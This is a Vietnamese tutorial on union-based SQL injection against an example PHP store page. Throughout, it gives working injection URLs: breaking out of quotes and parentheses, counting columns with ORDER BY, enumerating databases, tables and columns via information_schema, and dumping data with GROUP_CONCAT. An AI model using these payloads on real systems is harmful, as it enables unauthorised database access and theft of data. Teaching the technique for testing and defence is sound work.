






❅

❆
❄

❅
❆

❄
Sau khi đã có kiến thức nền tảng cơ bản, chúng ta sẽ bắt đầu inject. Đầu tiên, điều chúng ta cần làm là thử các input, injection khác nhau và xem web application phản hồi lại như thế nào, để thử xem có lỗi hay sự khác thường nào xuất hiện hay không
Giả sử mình có một URL đang bị inject như sau: worldend.com/store.php?id=1') and 1=1--+ và bên trong file PHP nếu không inject sẽ thực thi truy vấn select * from table_items where id=('1') và khi inject sẽ thực thi select * from table_items where id=('1') and 1=1--+')
Mình chia phần đằng sau id=1 thành 3 phần nhỏ: balance, injection, comment
- Balance: không chứa ký tự nào, hoặc một hay nhiều ký tự. Balance được sử dụng để thoát ra khỏi chuỗi,
ngoặc,... nhằm tạo môi trường có thể thực thi query, injection. Các ký tự hay được sử dụng: ', ", '), "),...
- Injection: chứa query chúng ta muốn thực thi. Như trong URL trên là and 1=1 mục đích là để xác định
balance, ngoài ra còn nhiều truy vấn thử balance khác như:
or 1=1
and 1=1
and false
and true
- Comment: dùng để ngắt hoàn toàn phần phía sau đó trong toàn bộ query gửi đến database system, tránh gây lỗi.
Các comment thường dùng đã đề cập ở phần trước
Union được sử dụng để gộp các output. Ví dụ như query bên dưới:
select name, age from table_beta where id=1 union select column_1, column_2 from table_alpha where id=2
Kết quả trả về sẽ là:
Tuy nhiên, UNION chỉ gộp những data có cùng số cột. Nếu thử query: select name, age from table_beta where id=1 union select column_1 from table_alpha where id=2 thì chắc chắn sẽ có lỗi vì data đầu có 2 cột trong khi data sau chỉ gọi 1 cột. Bây giờ chúng ta gặp phải một vấn đề khác, đó là số cột được gọi.
Để giải quyết vấn đề này chung ta sử dụng "order by". Ví dụ có query như sau: select * from table_beta order by 3. Kết quả trả về sẽ khác trước bởi vì lần này các hàng sẽ sắp xếp theo cột thứ 3 thay vì default
ORDER BY sẽ sort các cột OUTPUT của query, như vậy để lấy số cột được gọi, chúng ta chỉ việc thử các giá trị số sau order by cho đến khi gặp lỗi
Example:
worldend.com/store.php?id=1') order by 1--+
(khi đó query tới dbs sẽ là
select * from table_items where id=('1') order by 1--+')
)
=> Vẫn xuất hiện output
... (thay 1 bằng 2,3,4,...)
worldend.com/store.php?id=1') order by 5--+
=> Xuất hiện lỗi hoặc không hiển thị output => không có cột thứ 5 trong output này => Chỉ
có 4 cột trong kết quả trả về
Với một số web application, khi web pull data từ database lên web chỉ hiển thị hàng đầu tiên,
còn hàng union phía sau do ta inject thì lại nằm ở hàng 2 nên không hiển thị lên. Để tránh việc này
có thể inject như sau:
worldend.com/store.php?id=1') and false union select 1,2,3,4--+
=> Hàng thứ 2 với 4 giá trị 1,2,3,4 sẽ bị đẩy lên hàng 1 do sự xuất hiện của and false
Bên cạnh đó, web pull 4 giá trị, nhưng chỉ hiển thị cột 2 chẳng hạn, chúng ta có thể test xem
cột nào được hiển thị như sau:
worldend.com/store.php?id=1') and false union select data_1,data_2,data_3,data_4--+
=> Xem source code của trang và Ctrl + F keyword data_2 sẽ xuất hiện trong khi 3 từ khoá
còn lại không thể tìm thấy
Sau khi đã biết cách sử dụng UNION để lấy dữ liệu và ORDER BY để lấy số cột, chúng ta có thể khai thác một số Default Variables/ Functions bên dưới bằng cách đưa tên của chúng vào UNION

Example:
worldend.com/store.php?id=1') and false union select 1,version(),3,4--+
Đầu tiên, chúng ta sẽ lấy danh sách toàn bộ database. Trong mỗi server, luôn luôn chứa một database chứa nhiều thông tin chung, cốt lõi của cả server, đó là information_schema. Và danh sách cần tìm trong database này đó là table schemata, cột schema_name. Do đó, URL sẽ là:
worldend.com/store.php?id=1') and false union select 1,schema_name,3,4 from information_schema.schemata--+

Tuy nhiên, nếu website chỉ hiển thị 1 dòng đầu tiên (hay information_schema trong ví dụ này), chúng
ta có thể sử dụng function LIMIT
worldend.com/store.php?id=1') and false union select 1,schema_name,3,4 from information_schema.schemata limit 0,1--+
Khi đó, output sẽ lấy bắt đầu từ hàng 0, số lượng lấy là 1. Tương tự nếu muốn lấy output hàng thứ 3 thì thay bằng LIMIT 2,1
Sau khi đã có được tên của các database, chúng ta sẽ lấy tên các bảng có trong database. Tương tự như danh sách database, danh sách tables được lưu ở database information_schema, bảng TABLES. Chúng ta sẽ xuất data của cột table_name nhưng với value cột table_schema là tên database cần tìm
worldend.com/store.php?id=1') and false union select 1,table_name,3,4 from information_schema.tables where table_schema='sukabase'--+

Tiếp tục là xuất danh sách columns của bảng cần tìm, nằm trong cột column_name trong bảng
columns thuộc database information_schema
worldend.com/store.php?id=1') and false union select 1,column_name,3,4 from information_schema.columns where table_schema='sukabase' and table_name='tablesuka'--+
Và kết quả thu được sẽ là id, name và age
Cuối cùng là xuất dữ liệu mong muốn từ các cột cần tìm. Ví dụ ta xuất cột id và age từ bảng tablesuka trong database sukabase
worldend.com/store.php?id=1') and false union select 1,concat('id = ',id,',age = ',age),3,4 from sukabase.tablesuka--+
Hàm concat được sử dụng để nối output của nhiều cột, hay giá trị bên ngoài với nhau

Như đã nói ở trên, nếu output chỉ cho phép in 1 dòng đầu thì sử dụng function LIMIT. Tuy nhiên,
việc phải liên tục thay giá trị tham số của LIMIT khá cực, nên chúng ta có cách khác như dưới đây
Chúng ta sẽ sử dụng SQL query:
SELECT 1,CAST(GROUP_CONCAT(name,0x3a,age,'<br>') AS CHAR(2048)),3,4 FROM (SELECT name,age FROM sukabase.tablesuka LIMIT 0,2000)a;
Khác với bên trên chúng ta gọi data các cột từ bảng, lần này chúng ta gọi 2 cột name, age từ một bảng tạm thời a chứa thông tin mong muốn như lệnh SELECT trong ngoặc đơn, sau đó GROUP_CONCAT sẽ nối các hàng ở kết quả lại. Tuy nhiên, hàm GROUP_CONCAT chỉ có giới hạn 1024 chữ cái thôi, nên bên ngoài phải sử dụng thêm hàm CAST để nâng buffer tới 2048 chẳng hạn (có thể tăng giá trị buffer cho tới limit của một packet POST là 8192)
URL sẽ trở thành:
worldend.com/store.php?id=1') and false union SELECT 1,CAST(GROUP_CONCAT(name,0x3a,age,'<br>') AS CHAR(2048)),3,4 FROM (SELECT name,age FROM sukabase.tablesuka LIMIT 0,2000)a--+
Và đó là toàn bộ nội dung cơ bản của Union Based SQL Injection 😎